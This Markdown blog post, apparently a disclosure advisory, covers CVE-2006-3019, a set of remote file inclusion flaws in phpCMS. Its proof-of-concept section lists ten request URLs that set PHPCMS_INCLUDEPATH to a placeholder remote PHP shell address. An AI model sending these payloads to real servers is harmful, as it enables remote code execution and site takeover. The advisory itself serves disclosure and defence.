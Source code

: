 ```yaml
---
layout: post
title:  "CVE-2006-3019 – phpCMS <= 1.2.1pl2 Multiple Vulnerabilities"
date:   2006-06-12 00:00:00
categories: security
permalink: post/CVE-2006-3019-phpcms-multiple-vulnerabilities/
---
```


### Vendor

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

[http://www.phpcms.de/][phpcms]

[phpcms]:	http://www.phpcms.de/	"phpCMS"

### Description

Multiple PHP remote file inclusion vulnerabilities in `phpCMS 1.7 - 1.2.1pl2` (other versions may also be affected) allow remote attackers to execute arbitrary PHP code via a URL in the `PHPCMS_INCLUDEPATH` parameter.

### Affected Files

* (1) class.parser_phpcms.php,
* (2) class.session_phpcms.php,
* (3) class.edit_phpcms.php,
* (4) class.http_indexer_phpcms.php,
* (5) class.cache_phpcms.php,
* (6) class.search_phpcms.php,
* (7) class.lib_indexer_universal_phpcms.php,
* (8) class.layout_phpcms.php,
* (9) parser/plugs/counter.php,
* (10) parser/parser.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/[pc_path]/parser/include/class.parser_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
2. http://localhost/[pc_path]/parser/include/class.session_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
3. http://localhost/[pc_path]/parser/include/class.edit_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
4. http://localhost/[pc_path]/parser/include/class.http_indexer_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
5. http://localhost/[pc_path]/parser/include/class.cache_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
6. http://localhost/[pc_path]/parser/include/class.search_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
7. http://localhost/[pc_path]/parser/include/class.lib_indexer_universal_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
8. http://localhost/[pc_path]/parser/include/class.layout_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
9. http://localhost/[pc_path]/parser/plugs/counter.php?PHPCMS_INCLUDEPATH=
**~**
10. http://localhost/[pc_path]/parser/parser.php?PHPCMS_INCLUDEPATH=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019][mitre]
* [http://www.securityfocus.com/bid/21768][securityfocus]
* [http://www.osvdb.org/26388][osvdb]
* [http://secunia.com/advisories/20573][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019 "CVE 2006-3019"
[securityfocus]:	http://www.securityfocus.com/bid/21768						"SecurityFocus-21768"
[osvdb]:			http://www.osvdb.org/26388									"OSVDB-26388"
[secunia]:			http://secunia.com/advisories/20573							"Secunia-20573"